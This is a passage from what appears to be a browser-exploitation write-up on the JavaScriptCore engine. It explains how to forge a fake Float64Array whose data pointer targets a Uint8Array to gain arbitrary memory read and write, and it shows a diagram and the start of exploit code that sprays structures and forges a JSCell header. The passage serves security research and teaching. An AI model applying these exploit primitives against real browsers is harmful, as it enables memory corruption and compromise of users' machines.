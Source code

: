 Since we place our Float64Array inside the inline slots of another object
(referred to as 'container' from now on), we'll have to deal with some
restrictions that arise due to the JSValue encoding. Specifically we

    * cannot set a nullptr butterfly pointer since null isn't a valid
      JSValue. This is fine for now as the butterfly won't be accessed for
      simple element access operations

    * cannot set a valid mode field since it has to be larger than
      0x00010000 due to the NaN-boxing. We can freely control the length
      field though

    * can only set the vector to point to another JSObject since these are
      the only pointers that a JSValue can contain

Due to the last constraint we'll set up the Float64Array's vector to point
to a Uint8Array instance:

+----------------+                  +----------------+
|  Float64Array  |   +------------->|  Uint8Array    |
|                |   |              |                |
|  JSCell        |   |              |  JSCell        |
|  butterfly     |   |              |  butterfly     |
|  vector  ------+---+              |  vector        |
|  length        |                  |  length        |
|  mode          |                  |  mode          |
+----------------+                  +----------------+

With this we can now set the data pointer of the second array to an
arbitrary address, providing us with an arbitrary memory read/write.

Below is the code for creating a fake Float64Array instance using our
previous exploit primitives. The attached exploit code then creates a
global 'memory' object which provides convenient methods to read from and
write to arbitrary memory regions.

    sprayFloat64ArrayStructures();

    // Create the array that will be used to
    // read and write arbitrary memory addresses.
    var hax = new Uint8Array(0x1000);

    var jsCellHeader = new Int64([
        00, 0x10, 00, 00,       // m_structureID, current guess
        0x0,                    // m_indexingType
        0x27,                   // m_type, Float64Array
        0x18,                   // m_flags, OverridesGetOwnPropertySlot |
            // InterceptsGetOwnPropertySlotByIndexEvenWhenLengthIsNotZero
        0x1                     // m_cellState, NewWhite
    ]);
